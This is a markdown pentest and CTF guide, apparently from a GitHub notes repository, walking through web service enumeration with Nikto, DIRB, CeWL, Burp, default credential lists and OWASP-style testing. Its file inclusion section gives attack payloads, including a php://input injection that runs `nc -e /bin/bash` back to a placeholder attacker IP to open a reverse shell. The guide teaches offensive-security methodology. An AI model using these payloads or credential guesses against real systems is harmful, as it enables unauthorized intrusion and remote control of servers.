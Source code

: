 # Web Service Enumeration Flow Chart
Let's draw out recommended steps to take when we find a web service on a target system during CTF, or penetration testing. This can be found via NMAP scans or otherwise. I have anothewr file with tool-specific details [listed here](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/HTTP/http-enumeration.md) that I recommend reading as well.
### Edit the /etc/hosts File
Setting the hostname with the IP address will allow you to make HTTP requests with the hostname to the target system. This is used in enumerating any virtual hosts / domains that the target system may be hosting. A single IP address can hosts many web sites by handliong the incoming HTTP request information and mapping the hostname to an area on the file system.

Edit the /etc/hosts file as so,
```
(TARGET IP ADDRESS)      (TARGET HOSTNAME)
E.g.:
10.10.10.10     somehost.somedomain
10.10.10.10     subdomain.somehost.somedomain
```
## 1. Browse to the Web App
First, go to the service using a web browser and view it with eyeballs/or if impaired using a text browser or `curl`. This will often present clues to frameworks or other services that may be employed by the target system. Remember, that during the enumertaion phase of any service, **leave no stone unturned.**
### View Page Sources
There are a few different ways to inspect a web application / web page.
1. Hit CTRL+U and analyze the source code of then entire rendered page.
2. Right click and inspect elements
This can often lead to clues as to the development process, leak info in comments, or, very rarely, leak credentials.
### Developer Tools
Hit F12 to enter the developer tools.
1. Look at the resources that are being accessed by the web site/web app.
2. Refresh the page and watch the network tab to view any extra, potentially unrendered, content.
### Look for Login Pages
If the web application has a login page. This can often lead to a foothold during the penetration test. Especially if we can find an administrative account.
#### SQL Injection Attempt
Tryin a few simple SQL Injection attempts on the page.
1. [Common SQL Injection techniques for login pages](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/sql-injection-login-page.md)
2. Commonly used credentials
    1. admin:admin
    2. admin:
    3. admin:default
    4. admin:password
    5. administrator:administrator
    6. administrator:default
    7. administrator:
 #### Brute Force Attacks
 Next, we can try a brute force attack on the login page.
 1. Make sure that you try your best to enumerate a username. If none found, test default usernames such as "admin", "administrator", etc.
 2. Brute force attacks are lengthy. Run them in parallel to your work.
 3. Brute force attacks are lengthy. Try your best to enumerate words from the web aplpication to use as ammunition in the BF attack. Follow the [Generate Wordlists](#Generate_Wordlists) section below.
 ## 2. Scan the Web App
 Next, we will use a few tools to simply scan the web application.
 ### Nikto
 Nikto will provide information about the web service and web application. This scan may also provide use with very obvious web vulnerabilities for both a well.
 ```
 root@attacker-system:~# perl /infosec/www/nikto/program/nikto.pl -h (TARGET URL)
 ```
 ### DIRB
 A great way to enumerate files on the web server is to using a scanning tool such as DIRB. This tool should be used to scan for all suspected web application programming language types. E.g.: if the server is Apache, try PHP extensions for all file names in the DIRB common.txt wordlist.
 ```
 root@attacker-system:~# dirb http://(TARGET IP ADDRESS) -X .php
 ```
 1. Try many different wordlists besides the default `common.txt` wordlists. I have provided some here in this Grimoire, but you should also test some from the [SecLists/Discovery/Web-Content](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content) area as well.
 2. Also, try common used extensions and web service extensions. You also want to search for development archives or backups. 
    1. .config
    2. .cfc
    3. .jar
    4. .txt
    5. .zip
 3. Search for commonly used framework files, such as license.txt, readme.html, etc.
 ## 3. Generate Wordlists
 Using tools such as CeWL against the target web application and it's content can provide data that we can use to target credentials and brute-force style enumeration techniques.
```
root@attacker-system:~# ruby cew.rb http://(TARGET IP ADDRESS)/
CeWL 5.2 (Some Chaos) Robin Wood (robin@digi.ninja) (https://digi.ninja)
PwnLab
Intranet
Image
Hosting
... (SNIPPED) ...
```
These words work great against attempting a password brute force attack on the target server.
## 4. Check for Service Vulnerabilties
You can find the version of the web application server using 404 pages, HTTP headers, etc. For instance, we can see the version in the VulnHUB.com PwnLab instance by hitting http://(TARGET IP ADDRESS)/lol and view the following,
```
Apache/2.4.10 (Debian) Server at (TARGET IP ADDRESS) Port 80
```
We can also see this version in the HTTP response headers as,
```
Server: Apache/2.4.10 (Debian)
```
By right clicking in our browser on the site, choosing inspect element, clicking the Network tab and refreshing the page. Then select the index file in the bottom panel and view the headers on the right side of the developer tools box.

Use this version number to search exploit resources, such as [exploit-db.com](exploit-db.com) for known vulnerabilties.
## 5. OWASP Top 10 Project
Next, we want to attempt any of the (OWASP top 10)[https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project] web vulnerabilties for each input handler found on the web application.
1. **Directory Traversal** - [DotDotPwn](https://github.com/wireghoul/dotdotpwn) to attempt directory traversal
```
root@attacker-system:~# dotdotpwn -h (TARGET IP ADDRESS) -m http -f config.php
```
2. **SQL Injection** - [SQLMap](http://sqlmap.org/) can be used to test advanced SQL Injection
3. **File Inclusion and Command Injection** - Fuzz Web GET and POST parameters. You can also use **BurpSuite CE** in the *Intruder* tab to attempt an LFi Attack on the target system's HTTP requests parameters.
   1. `?file=foo.txt` may be vulnerable to local file includion (LFi)
   2. `?page=foo` may be vulnerable to local file inclusion (LFi)
   3. `?page=php://filter/convert.base64-encode/resource=index` - this payload will base64 encode the index.php file and return it in the DOM.
   4. `?page=php://input` with `<? system('nc -e /bin/bash (ATTACKER IP ADDRESS) (ATTACKER PORT)'); ?>` as POST data - command injection technique.
   5. `?url=http://someurl` may be vulnerable to remote file inclusion (RFi)
4. **Session Management** - Use the [Quick Cookie Manager](https://addons.mozilla.org/en-US/firefox/addon/cookie-quick-manager/) Firefox plugin to analyze and set cookies.
## 6. Burp Suite CE
Use the BurpSuite Community Edition to analyze all requests from the server. 
1. Turn on the proxy for Intercept in the BurpSuite CE window
2. Set the proxy in your web browser.
3. Make an HTTP request to multiple resources in the web application and analyze the results for more clues.
